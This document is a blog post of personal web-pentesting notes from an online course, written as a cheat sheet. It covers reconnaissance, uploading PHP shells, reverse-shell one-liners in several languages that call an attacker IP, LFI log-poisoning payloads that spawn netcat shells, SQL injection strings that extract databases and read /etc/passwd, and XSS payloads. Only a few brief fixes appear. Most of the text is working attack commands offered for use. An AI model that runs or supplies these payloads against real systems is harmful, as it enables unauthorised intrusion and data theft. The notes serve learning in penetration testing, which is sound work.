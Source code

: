 ```yaml
---
layout: post
title: "Simple-Guide-to-Web-Pentest"
date: 2020-02-10 00:22:00 -0000
categories: jekyll
permalink: /notes/webpentest
tags: [note, htb, web]

---
```


# Simple-Guide-to-Web-Pentest
some references i made after enrolled udemy course by Zaid Sabih (Learn Website Hacking / Penetration Testing From Scratch)

## webbugTIPS

### **(Information Gathering)**

- `http://whois.domaintools.com` = find owner target
- `https://toolbar.netcraft.com/site_report?url` = show technology used on target
- `https://www.robtex.com` = show comprehensive info target
- Discovering Websites On The Same Server = *`bing ip:103.198.52.156 php?id`*
- Find subdomain (subdomain.target.com) = git clone https://github.com/guelfoweb/knock.git
- Find file/directory in target website by [_`dirb http://what.com.my /root/usr/share/wlist.txt`_]. Try find [`php.info, robots.txt, config.inc`] for specific target info.
- Maltego - Discovering Websites, Hosting Provider & Emails, Servers, Domains & Files.

### **File Upload Vulnerabilities – allow upload malicious file such as php shell**

- Metasploit Command: *`msfvenom -p php/meterpreter/bind_tcp LPORT=4444 LHOST=192.168.169.137 > /root/shell1.php`*
- Metasploit listener: *`use exploit/multi/handler; set payload php/meterpreter/bind_tcp; set RHOST <target-ip>; set RPORT 4444; run`*
- Upload Weevly shell. *`weevly generate p@55w0rd! shell.php`*
- .Open the url to activated.
- Connect to weevly terminal.  *`weevly http://test.com.my/upload p@55w0rd!`*
- Intercept and modify parameter with burpsuite. 
- How2fix: check validation of format, recreate img and rename img.

### **Code Execution Vulnerabilities – allow execution of OS command such as ping, ls, pwd.**

The following examples assume the hacker IP is 10.20.14 and use port 8080 for the connection. Therefore in all these cases you need to listen for port 8080 using the following command *`nc -vv -l -p 8080`*

- BASH = *`bash -i >& /dev/tcp/10.20.14.203/8080 0>&1`*
- PERL= *`perl -e 'use Socket;$i="10.20.14";$p=8080;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'`*
- Netcat = *n`c -e /bin/sh 10.20.14 8080`*
- Python = *`python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.20.14",8080));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'`*
- PHP = *`php -r '$sock=fsockopen("10.20.14",8080);exec("/bin/sh -i <&3 >&3 2>&3");'`*
- Ruby = *`ruby -rsocket -e'f=TCPSocket.open("10.20.14",8080).to_i;exec sprintf("/bin/sh -i <&%d >&%d 2>&%d",f,f,f)'`*


### **Local File Inclusion Vulnerabilities (LFI) – allow read file on same server, access file outside www dir.**

- Check for *`../../../../etc/passwd`* and copy the passwd hashes.
- Gain access method#1. Check for *`../../../../proc/self/environ`* and modify burpsuite Headers Tab>user Agent value from Mozilla to *`<?passthru(“nc -e /bin/sh attackerIP attackerPort”);?>`* and set listener to *`nc -vv -l -p 8888`* on terminal.
- Gain access method#2. Check for *`../../../../var/log/auth.log`* and do SSH by *`ssh “<?passthru(base64_decode(‘nc -e /bin/sh attackerIP attackerPort in base64ofgilberish’));?>”@attackerIP`* and set listener nc in terminal.

### **Remote File Inclusion Vulnerabilities (RFI) – allow access file from other host.**
- How2fix: prevent RFI by `disable allow_url_fopen` & `allow_url_include` in `/etc/php5/cgi/php.ini`.

### **SQLI Vulnerabilities - SQLi In Login Pages – use burpsuite to verify if it filters on client side or server side.**

- [WEAK codepractise] Discover POST try use `and, order by, ‘` and check for error handling. `123456’ and 1=1#`
- [WEAK codepractise] Try `(admin)/(admin’ #); aaa’ or 1=1 #`
- [BETTER codepractise] if client side filter, try modify parameter> password in burpsuite.

### **SQLI Vulnerabilities - Extracting Database**

- Discover GET(viewatURL) by execute at URL using *`admin’ order by 1#`* `# change to %23` to check how many columns are there in db.
- If there are 5 columns then use *`union select 1, database(), user(), version(), 5`*

### **SQLI Vulnerabilities - Advanced Exploitation – blind sqli mean not show any error msg**
- Check manually for blind sqli in URL for TRUE *`1’ and 1=1%23`*, FALSE  `1’ and 1=0%23`.
TRUE  `1’ order by 1%23`, FALSE   `1’ order by 1000000000%23`.
TRUE   `1’ union select table_name,2 from information_schema.tables%23`
`1’ union select null,load_file(‘/etc/passwd’),null,null,null%23`.
- *`Sqlmap -u http://injectablelink.com.org`* . use `‘--sql-shell’` parameter to run sql command.

### **XSS Vulnerabilities**

- Try basic *`<script>alert(“testedXSS”)</script>`*
- If filter, try more *`<sCripT>alert(“testedXSS”)</scRipt>`*
- Refer *https://www.owasp.org/index.php/XSS_Filter_Evasion_Cheat_Sheet*
